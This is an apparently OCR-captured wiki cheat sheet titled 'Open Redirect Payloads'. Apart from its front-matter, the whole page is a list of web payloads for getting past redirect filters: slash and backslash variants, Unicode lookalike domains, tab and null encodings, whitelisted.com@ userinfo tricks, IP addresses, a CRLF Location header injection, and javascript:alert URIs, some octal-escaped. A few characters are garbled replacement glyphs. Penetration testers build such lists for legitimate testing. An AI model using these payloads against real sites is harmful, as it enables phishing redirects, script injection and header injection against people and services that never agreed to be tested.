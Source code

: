 ```yaml
---
title: Open Redirect Payloads
description: Open Redirect 
published: true
date: 2021-03-02T07:02:28.153Z
tags: web
editor: markdown
dateCreated: 2021-03-02T06:55:51.082Z
---
```


Open Redirect CheatSheet 

<>//Ⓛ𝐨𝗰�𝕝ⅆ𝓸ⓜₐℹⓃ｡Ｐⓦ
//;@Ⓛ𝐨𝗰�𝕝ⅆ𝓸ⓜₐℹⓃ｡Ｐⓦ
/////Ⓛ𝐨𝗰�𝕝ⅆ𝓸ⓜₐℹⓃ｡Ｐⓦ/
/////Ⓛ𝐨𝗰�𝕝ⅆ𝓸ⓜₐℹⓃ｡Ｐⓦ
////Ⓛ𝐨𝗰�𝕝ⅆ𝓸ⓜₐℹⓃ｡Ｐⓦ//
////Ⓛ𝐨𝗰�𝕝ⅆ𝓸ⓜₐℹⓃ｡Ｐⓦ/
///\;@Ⓛ𝐨𝗰�𝕝ⅆ𝓸ⓜₐℹⓃ｡Ｐⓦ
///Ⓛ𝐨𝗰�𝕝ⅆ𝓸ⓜₐℹⓃ｡Ｐⓦ//
///Ⓛ𝐨𝗰�𝕝ⅆ𝓸ⓜₐℹⓃ｡Ｐⓦ/
///Ⓛ𝐨𝗰�𝕝ⅆ𝓸ⓜₐℹⓃ｡Ｐⓦ
//\/Ⓛ𝐨𝗰�𝕝ⅆ𝓸ⓜₐℹⓃ｡Ｐⓦ/
//Ⓛ𝐨𝗰�𝕝ⅆ𝓸ⓜₐℹⓃ｡Ｐⓦ//
//Ⓛ𝐨𝗰�𝕝ⅆ𝓸ⓜₐℹⓃ｡Ｐⓦ/
//Ⓛ𝐨𝗰�𝕝ⅆ𝓸ⓜₐℹⓃ｡Ｐⓦ
/.Ⓛ𝐨𝗰�𝕝ⅆ𝓸ⓜₐℹⓃ｡Ｐⓦ
/\/Ⓛ𝐨𝗰�𝕝ⅆ𝓸ⓜₐℹⓃ｡Ｐⓦ/
/〱Ⓛ𝐨𝗰�𝕝ⅆ𝓸ⓜₐℹⓃ｡Ｐⓦ
.Ⓛ𝐨𝗰�𝕝ⅆ𝓸ⓜₐℹⓃ｡Ｐⓦ
@Ⓛ𝐨𝗰�𝕝ⅆ𝓸ⓜₐℹⓃ｡Ｐⓦ
\/\/Ⓛ𝐨𝗰�𝕝ⅆ𝓸ⓜₐℹⓃ｡Ｐⓦ/
〱Ⓛ𝐨𝗰�𝕝ⅆ𝓸ⓜₐℹⓃ｡Ｐⓦ
//Ⓛ𝐨𝗰�𝕝ⅆ𝓸ⓜₐℹⓃ%00｡Ｐⓦ
%01https://Ⓛ𝐨𝗰�𝕝ⅆ𝓸ⓜₐℹⓃ｡Ｐⓦ
%01https://google.com
////%09/Ⓛ𝐨𝗰�𝕝ⅆ𝓸ⓜₐℹⓃ｡Ｐⓦ
///%09/Ⓛ𝐨𝗰�𝕝ⅆ𝓸ⓜₐℹⓃ｡Ｐⓦ
//%09/Ⓛ𝐨𝗰�𝕝ⅆ𝓸ⓜₐℹⓃ｡Ｐⓦ
/%09/Ⓛ𝐨𝗰�𝕝ⅆ𝓸ⓜₐℹⓃ｡Ｐⓦ
////%09/google.com
///%09/google.com
//%09/google.com
/%09/google.com
/%09/javascript:alert(1);
/%09/javascript:alert(1)
////%09/whitelisted.com@Ⓛ𝐨𝗰�𝕝ⅆ𝓸ⓜₐℹⓃ｡Ｐⓦ
///%09/whitelisted.com@Ⓛ𝐨𝗰�𝕝ⅆ𝓸ⓜₐℹⓃ｡Ｐⓦ
//%09/whitelisted.com@Ⓛ𝐨𝗰�𝕝ⅆ𝓸ⓜₐℹⓃ｡Ｐⓦ
/%09/whitelisted.com@Ⓛ𝐨𝗰�𝕝ⅆ𝓸ⓜₐℹⓃ｡Ｐⓦ
////%09/whitelisted.com@google.com
///%09/whitelisted.com@google.com
//%09/whitelisted.com@google.com
/%09/whitelisted.com@google.com
&%0d%0a1Location:https://google.com
\152\141\166\141\163\143\162\151\160\164\072alert(1)
%19Jav%09asc%09ript:https%20://whitelisted.com/%250Aconfirm%25281%2529
////216.58.214.206
///216.58.214.206
//216.58.214.206
/\216.58.214.206
/216.58.214.206